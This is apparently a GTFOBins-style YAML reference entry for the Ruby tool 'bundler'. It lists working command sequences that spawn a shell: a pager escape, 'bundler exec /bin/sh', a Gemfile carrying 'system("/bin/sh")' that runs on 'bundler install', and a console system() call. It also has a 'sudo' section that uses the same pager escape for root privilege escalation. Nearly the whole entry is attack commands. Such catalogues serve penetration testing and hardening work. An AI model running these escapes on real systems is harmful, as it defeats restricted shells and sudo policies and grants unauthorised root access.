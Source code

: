  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundler help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundler exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundler console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundler install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundler help
        !/bin/sh
---
